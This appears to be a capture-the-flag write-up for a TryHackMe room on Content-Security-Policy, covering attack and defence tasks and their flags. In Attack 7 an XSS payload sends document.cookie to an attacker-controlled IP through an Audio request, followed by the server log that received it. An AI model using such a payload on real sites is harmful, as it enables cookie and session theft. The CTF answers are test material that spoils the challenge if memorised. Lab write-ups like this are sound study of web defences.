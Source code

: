 
# Atatck 6

Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; script-src 'unsafe-eval' cdnjs.cloudflare.com

```js

```
Flag : THM{Trust_N0_CDN}

# Attack 7

Content-Security-Policy: default-src 'none'; media-src *; style-src 'self'; script-src 'self'

```js
<script src="/'; new Audio('http://10.11.43.119:8080/' + document.cookie); '"></script>

```

```bash
10.11.43.119 - - [21/Aug/2021 19:33:34] "GET / HTTP/1.1" 200 -
10.10.113.82 - - [21/Aug/2021 19:33:42] code 404, message File not found
10.10.113.82 - - [21/Aug/2021 19:33:42] "GET /flag=THM%7BTh1s_4udio_S0unds_N1ce%7D HTTP/1.1" 404 -
```

Flag : THM{Th1s_4udio_S0unds_N1ce}




# Defend 1

script-src 'self';

Welcome to defend-1!
The attackers are trying to XSS our admins! Quick, write a CSP policy that only allows the scripts we use!
(You can view our allowed scripts by checking the source code of this webpage.)
The attackers have sent the following:
You have successfully defended the server against attackers!
Here's your reward: THM{N0_0utside_S0urces}

# Defend 2

script-src 'nonce-ae3b00';

You have successfully defended the server against attackers!
Here's your reward: THM{M4k3_Sure_Y0ur_N0nce_1s_R4ndom}

# Defend 3 

https://report-uri.com/home/hash

console.log("__defend-3_REAL=true")

script-src 'sha256-8gQ3l0jVGr5ZXaOeym+1jciekP8wsfNgpZImdHthDRo=';

You have successfully defended the server against attackers!
Here's your reward: THM{Hash_Y0ur_1nl1ne_Scr1pts}